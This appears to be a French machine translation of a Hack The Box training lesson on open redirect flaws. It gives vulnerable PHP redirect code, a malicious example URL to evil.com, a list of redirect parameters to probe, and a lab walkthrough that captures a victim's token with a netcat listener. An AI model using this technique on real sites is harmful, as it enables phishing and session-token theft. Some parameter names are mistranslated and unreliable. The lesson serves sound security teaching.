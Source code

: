 Ouvrir la redirection
=====================

* * * * *

Une vulnérabilité de redirection ouverte se produit lorsqu'un attaquant peut rediriger une victime vers un site contrôlé par un attaquant en abusant de la fonctionnalité de redirection d'une application légitime. Dans de tels cas, tout ce que l'attaquant a à faire est de spécifier un site Web sous son contrôle dans une URL de redirection d'un site Web légitime et de transmettre cette URL à la victime. Comme vous pouvez l'imaginer, cela est possible lorsque la fonctionnalité de redirection de l'application légitime n'effectue aucune sorte de validation concernant les sites Web vers lesquels la redirection pointe. Du point de vue d'un attaquant, une vulnérabilité de redirection ouverte peut s'avérer extrêmement utile lors de la phase d'accès initiale, car elle peut conduire les victimes vers des pages Web contrôlées par l'attaquant via une page en laquelle ils ont confiance.

Jetons un coup d'œil à un code.

Code : php

```
$red = $_GET['url'];
header("Location: " . $red);

```

Code : php

```
$red = $_GET['url'];

```

Dans la ligne de code ci-dessus, une variable appelée *red* est définie et obtient sa valeur à partir d'un paramètre appelé *url* . *$_GET* est une super variable PHP qui nous permet d'accéder à la valeur du paramètre *url* .

Code : php

```
header("Location: " . $red);

```

L'en-tête de réponse Location indique l'URL vers laquelle rediriger une page. La ligne de code ci-dessus définit l'emplacement sur la valeur de *red* , sans aucune validation. Nous sommes ici confrontés à une vulnérabilité Open Redirect.

L'URL malveillante qu'un attaquant enverrait en exploitant la vulnérabilité Open Redirect ressemblerait à ceci :`trusted.site/index.php?url=https://evil.com`

Assurez-vous de vérifier les paramètres d'URL suivants lors de la recherche de bogues, vous les verrez souvent dans les pages de connexion. Exemple:`/login.php?redirect=dashboard`

-   ?URL=
-   ?lien=
-   ?redirect=
-   ?URL de redirection=
-   ?redirect_uri=
-   ?retour=
-   ?return_to=
-   ?URL_retour=
-   ?go=
-   ?goto=
-   ?exit=
-   ?exitpage=
-   ?fromurl=
-   ?fromuri=
-   ?redirect_to=
-   ?suivant=
-   ?nouvelleURL=
-   ?redir=

* * * * *

Exemple de redirection ouverte
------------------------------

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'application cible et suivez-la. N'oubliez pas de configurer le vhost ( `oredirect.htb.net`) spécifié pour accéder à l'application.

Accédez à `oredirect.htb.net`. Vous tomberez sur une URL au format ci-dessous :

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Si vous saisissez un compte de messagerie, vous remarquerez que l'application finit par envoyer une requête POST à ​​la page spécifiée dans le paramètre *redirect_uri* . Un *jeton* est également inclus dans la requête POST. Ce jeton pourrait être un jeton de session ou anti-CSRF et, par conséquent, utile à un attaquant.

![image](https://academy.hackthebox.com/storage/modules/153/72.png)

Testons si nous pouvons contrôler le site vers lequel pointe le paramètre *redirect_uri . *En d'autres termes, vérifions si l'application effectue la redirection sans aucune sorte de validation (Open Redirect).

Nous pouvons tester cela comme suit.

Tout d'abord, configurons un écouteur Netcat.

```
dsgsec@htb[/htb]$ nc -lvnp 1337

```

Copiez l'intégralité de l'URL où vous avez atterri après avoir navigué vers `oredirect.htb.net`. Il doit s'agir d'une URL au format ci-dessous :

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Modifiez ensuite cette URL comme suit.

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

`<RANDOM TOKEN ASSIGNED BY THE APP>`<-- Remplacez-le par le jeton attribué automatiquement par l'application.

Ouvrez un `New Private Window`et accédez au lien ci-dessus pour simuler la victime.

Lorsque la victime saisit son e-mail, nous remarquons qu'une connexion est établie avec notre auditeur. L'application est en effet vulnérable à Open Redirect. Non seulement cela, mais la demande capturée capturée inclut également le jeton !

![image](https://academy.hackthebox.com/storage/modules/153/71.png)

Les vulnérabilités de redirection ouvertes sont généralement exploitées par les attaquants pour créer des URL de phishing d'apparence légitime. Comme nous venons de le voir, cependant, lorsqu'une fonctionnalité de redirection implique des jetons utilisateur (indépendamment de l'utilisation de GET ou POST), les attaquants peuvent également exploiter les vulnérabilités de redirection ouvertes pour obtenir des jetons utilisateur.

La section suivante fournira quelques conseils de prévention liés aux vulnérabilités couvertes.
